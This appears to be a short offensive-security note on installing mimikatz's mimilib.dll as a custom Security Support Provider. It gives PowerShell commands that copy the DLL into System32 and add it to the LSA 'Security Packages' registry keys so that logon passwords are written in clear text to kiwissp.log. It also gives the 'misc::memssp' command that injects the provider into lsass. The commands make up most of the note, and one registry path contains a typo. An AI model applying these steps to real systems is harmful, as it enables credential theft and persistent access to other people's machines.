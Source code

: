 #mimikatz #powershell 
[[Authentication#GSS-API]]
- Injecting our own SSP for programs to use.
- Mimikatz has it's own `mimilib.dll` SSP. This SSP logs local logons, service account and machine account password in clear text on the target server.
- `mimilib.dll` should be present in the system32 directory on the target system, and add mimilib to the `HKLM\SYSTEM\CurrentControlSet\Control\LSA\Security Packages`
```powershell
# move mimilib to system32
Move-Item mimilib.dll C:\Windows\System32

# Get Current value of "Security Packages"
$packages = Get-ItemProperty "HKML:\System\CurrentControlSet\Control\Lsa\OSConfig" -Name 'Security Packages' | select -ExpandProperty 'Security Packages';

# append mimilib to packages variable
$packages += "mimilib"

# Reset the registry key
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig" -Name 'Security Packages' -Value $packages
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa" -Name 'Security Packages' -Value $packages
# Reboot
# After reboot all logons are logged to C:\Windows\System32\kiwissp.log

# Mimikatz can be used directory to load mimilib in lsass
misc::memssp
```
